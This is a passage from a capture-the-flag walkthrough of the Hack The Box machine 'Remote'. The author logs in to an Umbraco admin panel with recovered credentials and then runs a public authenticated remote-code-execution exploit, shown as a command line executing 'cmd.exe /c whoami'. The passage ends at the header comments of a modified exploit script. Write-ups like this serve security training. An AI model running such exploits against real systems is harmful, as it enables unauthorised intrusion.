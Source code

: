 Lets check if `baconandcheese` is still being used for the `admin@htb.local` account.

![](/assets/images/remote5.png)

After pressing "Login", nothing appeared on webpage but we know that the login was successful. Remember the [exploit](https://github.com/noraj/Umbraco-RCE) we found just now? Lets see if this exploit works with our credentials that we found.

# Exploitation

{% highlight bash %}
$ python umbraco.py -u 'admin@htb.local' -p 'baconandcheese' -i http://remote.htb -c cmd.exe -a "/c whoami"
k (most recent call last):
  File "umbraco3.py", line 53, in <module>
    VIEWSTATE = soup.find(id="__VIEWSTATE")['value']
{% endhighlight %}

When I first pwned this box, this exploit was working fine! Fortunately, I was able to debug and realised that the new cookies set after successful logon were not being saved properly, so I tweaked the script a little:

{% highlight python %}
# Exploit Title: Umbraco CMS - Authenticated Remote Code Execution 
# Date: 2020-03-28
# Exploit Author: Alexandre ZANNI (noraj)
# Based on: https://www.exploit-db.com/exploits/46153
# Vendor Homepage: http://www.umbraco.com/
# Software Link: https://our.umbraco.com/download/releases
# Version: 7.12.4
# Category: Webapps